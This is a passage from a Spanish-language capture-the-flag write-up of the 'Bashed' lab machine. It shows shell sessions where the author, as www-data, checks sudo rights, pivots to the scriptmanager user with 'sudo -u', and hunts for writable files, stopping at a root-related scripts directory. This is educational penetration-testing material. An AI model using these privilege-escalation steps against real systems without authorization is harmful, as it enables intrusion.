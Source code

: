 ```bash
-rw-r--r-- 1 arrexel arrexel    0 Dec  4  2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel   33 Apr 17 14:24 user.txt
www-data@bashed:/home/arrexel$ cat user.txt
```

Listo, ahora veamos nuestros privilegios:
```bash
www-data@bashed:/home/arrexel$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Mmmm no sé qué es eso de **scriptmanager**, vamos a buscar un poco para ver de que se trata. 

Encontré este link:
* https://f1uffygoat.com/privesc/

Vamos a entrar como **scriptmanager**:
```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ 
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

Pero aún no podemos hacer nada, pues si intentas usar comandos como **SUDO**, no vamos a poder hacer nada. ¿Qué podemos hacer entonces? Vamos a buscar que archivos podemos modificar:
```bash
scriptmanager@bashed:/$ find / -type f -user scriptmanager 2>/dev/null
/scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
/proc/2374/task/2374/fdinfo/0
/proc/2374/task/2374/fdinfo/1
/proc/2374/task/2374/fdinfo/2
/proc/2374/task/2374/fdinfo/255
/proc/2374/task/2374/environ
...
```

Veo algo curioso ahí, un archivo en Python dentro del directorio **scripts**, vamos a investigarlo:
```bash
scriptmanager@bashed:/$ cd /scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Apr 17 17:17 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Apr 17 17:37 test.txt
```
